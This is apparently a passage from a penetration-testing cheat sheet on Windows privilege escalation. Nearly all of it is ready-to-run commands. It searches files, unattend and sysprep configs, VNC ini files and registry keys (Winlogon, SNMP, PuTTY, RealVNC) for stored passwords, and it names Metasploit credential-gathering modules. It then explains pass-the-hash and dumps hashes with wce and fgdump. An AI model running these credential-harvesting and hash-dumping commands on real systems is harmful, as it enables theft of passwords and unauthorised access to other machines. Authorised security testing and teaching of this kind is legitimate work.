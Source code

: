 #### Find all passwords in all files.

```
findstr /spin "password" *.*
```

```
findstr /spin "password" *.*
```

These are common files to find them in. They might be base64-encoded. So look out for that.

```
type c:\sysprep.inf
type c:\sysprep\sysprep.xml
type c:\unattend.xml
type %WINDIR%\Panther\Unattend\Unattended.xml
type %WINDIR%\Panther\Unattended.xml
```

```
dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
dir c:\ /s /b | findstr /si *vnc.ini
```

#### Stuff in the registry:

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```

#### Using meterpreter:

```
post/windows/gather/credentials/gpp
post/windows/gather/enum_unattend
```

## Pass the hash

Pass The Hash allows an attacker to authenticate to a remote target by using a valid combination of username and NTLM/LM hash rather than a cleartext password.

Windows hash format:

```
user:group:id:ntlmpassword::
```

You can do a hash dump in the affected system running:

```
wce32.exe -w
wce64.exe -w
fgdump.exe
```
